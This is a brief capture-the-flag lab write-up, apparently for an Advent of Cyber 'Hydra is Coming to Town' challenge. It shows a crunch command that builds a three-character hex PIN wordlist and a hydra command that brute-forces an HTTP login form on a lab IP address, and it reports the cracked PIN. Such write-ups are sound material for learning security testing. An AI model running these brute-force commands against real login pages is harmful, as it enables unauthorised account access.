

# Day 3: Hydra is Coming to Town

The right commands to use are pretty much given in the text. To generate the list of payloads, use:

```
$ crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

And then use Hydra to crack the login page:

```
$ hydra -l '' -P 3digits.txt -f -v 10.10.58.239 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

I got the password `6F5` after about a minute, and used this to log in.


